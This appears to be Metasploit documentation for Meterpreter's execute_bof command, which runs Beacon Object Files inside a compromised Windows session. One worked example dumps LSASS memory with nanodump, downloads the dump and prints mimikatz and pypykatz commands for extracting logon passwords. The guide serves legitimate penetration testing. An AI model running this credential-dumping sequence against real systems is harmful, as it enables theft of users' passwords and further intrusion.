 This guide outlines how to use the Meterpreter `execute_bof` command as provided by the `bofloader` extension. It allows
a Meterpreter session to execute "Beacon Object Files" or BOF files for short. A BOF is a
[Common Object File Format][1] (COFF) executable file with an API of standard functions defined in [beacon.h][2].

The `bofloader` extension is only available for the Windows native Meterpreter, i.e. it is unavailable in the Java
Meterpreter even when running on the Windows platform.

# Execution Environment
**Warning:** The execution environment is shared with the Meterpreter process. If there is an exception or the BOF
crashes, the Meterpreter session will die. It is suggested that users invoke this functionality through a dedicated
session to avoid losing access altogether.

The loader and execution environment are provided by [trustedsec/COFFLoader][3]. The extension is therefor subject to
the same limitations.

The following functions are unavailable:

* `BeaconDataPtr`
* `BeaconUseToken`<sup>1</sup>
* `BeaconRevertToken`<sup>1</sup>
* `BeaconIsAdmin`
* `BeaconInjectProcess`
* `BeaconInjectTemporaryProcess`

<sup>1</sup> The token functions are defined and present, but will only effect the execution of the BOF and not the
Meterpreter runtime environment.

Currently, there is only one output stream. All output data processed by `BeaconOutput` and `BeaconPrintf` is combined
into that stream. BOFs should not use this for outputting binary data.

# Usage
The `bofloader` extension provides exactly one command, through which all of the provided functionality is accessed.

`execute_bof </path/to/bof_file> [Options] -- [BOF Arguments]`



* `-c` / `--compile` -- Compile the input file (requires mingw).
* `-e` / `--entry` -- The entry point (default: `go`).
* `-f` / `--format-string` -- Argument format-string. See details below.

## Compile
The compile option will use a local mingw instance to compile the input file into a COFF file for execution. The
standard [beacon.h][2] file will be in the include path automatically. In this case, the input file is treated as a C
source file instead of compiled data.

## Entry Point
Once loaded the loader will call the BOF entry point. By default, this value is `go`. The entry point option can change
it to another valid function to call instead.

## Argument Format-String
The `execute_bof` command is capable of serializing arguments to be sent to the BOF for execution. The user must define
the data type of each argument that the BOF file expecting to see. This information would come from either reading the
BOF's documentation or source code. **Incorrectly specifying the arguments or omitting them entirely can result in the
BOF crashing and the Meterpreter session dying.**

BOF argument types are defined in the format string argument with `-f` / `--format-string`.

The following table describes each of the types.

| Type    | Description                                                     | Unpack With (C)               |
| --------|-----------------------------------------------------------------|-------------------------------|
| b       | binary data (e.g. 01020304, file:/path/to/file.bin)<sup>1</sup> | BeaconDataExtract             |
| i       | 32-bit integer (e.g. 0x1234, 5678)<sup>2</sup>                  | BeaconDataInt                 |
| s       | 16-bit integer (e.g. 0x1234, 5678)<sup>2</sup>                  | BeaconDataShort               |
| z       | null-terminated utf-8 string                                    | BeaconDataExtract             |
| Z       | null-terminated utf-16 string                                   | (wchar_t *)BeaconDataExtract  |

<sup>1</sup> Binary data arguments are specified as either a stream of hex characters or as the path to a file local to
the Metasploit Framework instance. In the case of a file path, it must be prefixed with `file:`.

<sup>2</sup> Integer arguments are specified as either decimal or hexadecimal literals.

Unknown arguments are treated as BOF arguments. Additionally, any arguments after the `--` terminator are explicitly
treated as BOF arguments. Using the terminator allows ambiguous arguments to such as `--help` to be forward to the BOF
instead of being processed locally. The number of BOF arguments to be forward must equal number of characters in the
argument format string.

# Usage Examples
Executing [dir][4], passing the path argument and number of sub-directories to list.

```
meterpreter > execute_bof CS-Situational-Awareness-BOF/SA/dir/dir.x64.o --format-string Zs C:\\ 0
Contents of C:\*:
	08/05/2022 15:17           <dir> $Recycle.Bin
	08/05/2022 15:16      <junction> Documents and Settings
	09/22/2022 08:35      1342177280 pagefile.sys
	08/05/2022 16:48           <dir> PerfLogs
	09/08/2022 12:51           <dir> Program Files
	09/15/2018 05:06           <dir> Program Files (x86)
	08/05/2022 15:26           <dir> ProgramData
	09/07/2022 10:24           <dir> Python27
	08/05/2022 15:16           <dir> Recovery
	08/05/2022 15:40           <dir> System Volume Information
	08/05/2022 15:16           <dir> Users
	09/01/2022 13:49           <dir> Windows
	                      1342177280 Total File Size for 1 File(s)
	                                                     11 Dir(s)

meterpreter > 
```

Executing [nanodump][5]. First the PID of LSASS is found, then the argument string is constructed. The output must be
written to disk. Once completed, the dump file can be downloaded from the remote host.

```
meterpreter > ps lsass
Filtering on 'lsass'

Process List
============

 PID  PPID  Name       Arch  Session  User                 Path
 ---  ----  ----       ----  -------  ----                 ----
 712  556   lsass.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\lsass.exe

meterpreter > execute_bof nanodump.x64.o --format-string iziiiiiiiiziiiz 712 nanodump.dmp 1 1 0 0 0 0 0 0 "" 0 0 0 ""
Done, to download the dump run:
download nanodump.dmp
to get the secretz run:
python3 -m pypykatz lsa minidump nanodump.dmp
mimikatz.exe "sekurlsa::minidump nanodump.dmp" "sekurlsa::logonPasswords full" exit
meterpreter > download nanodump.dmp 
[*] Downloading: nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 1.00 MiB of 11.56 MiB (8.65%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 2.00 MiB of 11.56 MiB (17.31%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 3.00 MiB of 11.56 MiB (25.96%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 4.00 MiB of 11.56 MiB (34.62%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 5.00 MiB of 11.56 MiB (43.27%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 6.00 MiB of 11.56 MiB (51.92%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 7.00 MiB of 11.56 MiB (60.58%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 8.00 MiB of 11.56 MiB (69.23%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 9.00 MiB of 11.56 MiB (77.89%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 10.00 MiB of 11.56 MiB (86.54%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 11.00 MiB of 11.56 MiB (95.2%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 11.56 MiB of 11.56 MiB (100.0%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] download   : nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
meterpreter > 
```

# References

* [hstechdocs.helpsystems.com/manuals/cobaltstrike][6] for Cobalt Strike's BOF documentation
* [beacon.h][2] source code for the BOF API
* [TrustedSec/COFFLoader][3] for the source code of the loader
* [trustedsec/CS-Situational-Awareness-BOFF][7] for a collection of useful BOFs

[1]: https://en.wikipedia.org/wiki/COFF
[2]: https://github.com/Cobalt-Strike/bof_template/blob/4a5009fc4adeb35bb1b1887da478280f12f9693a/beacon.h
[3]: https://github.com/TrustedSec/COFFLoader
[4]: https://github.com/trustedsec/CS-Situational-Awareness-BOF/tree/master/src/SA/dir
[5]: https://github.com/helpsystems/nanodump
[6]: https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_main.htm
[7]: https://github.com/trustedsec/CS-Situational-Awareness-BOF
